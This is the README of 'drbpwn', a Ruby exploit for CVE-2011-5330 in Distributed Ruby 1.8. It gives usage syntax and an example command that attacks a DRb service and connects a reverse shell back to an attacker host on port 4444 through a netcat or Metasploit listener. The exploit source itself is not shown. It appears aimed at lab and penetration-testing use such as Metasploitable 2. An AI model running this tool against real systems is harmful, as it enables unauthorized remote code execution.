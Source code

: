 # drbpwn

## Description
CVE-2011-5330 exploit in ruby
This Ruby script provides a workaround for exploiting Distributed Ruby (DRb) vulnerabilities using instance_eval and syscall methods. It aims to serve as an alternative to the missing Metasploit module for DRb exploitation. While the Metasploit module might reappear in future versions, this script can be utilized in the meantime when other exploits are not readily available. This vulnerability, designated CVE-2011-5330, highlights flaws in Distributed Ruby (DRb) 1.8 related to the handling of syscalls.

## Usage
To use the script, follow the syntax below:

```ruby drbpwn.rb <target_host> <target_port> <attacker_host> [<attacker_port>]```

### Arguments
- `<target_host>`: The hostname or IP address of the target machine.
- `<target_port>`: The port number on which the DRb service is running on the target machine.
- `<attacker_host>`: The hostname or IP address of the attacker machine.
- `[<attacker_port>]`: (Optional) The port number on which attacker is listening. Defaults to `4444` if not provided.

- Note: Before running this script, make sure the attacker machine is listening for incoming connections on the designated port using netcat (nc) or Metasploit's multi/handler.

## Example
```ruby drbpwn.rb 192.168.0.100 8787 192.168.0.107```


In this example, the script will attempt to exploit the DRb service running on `192.168.0.100` at port `8787` and connect back to attacker at 192.168.0.107 at port 4444

## Note
Ensure that you have proper authorization before attempting to exploit any system. This script is provided for educational purposes and should only be used in environments where you have explicit permission to do so. Also, this script can be used to exploit the vulnerable service running on the Metasploitable 2 VM on port 8787.
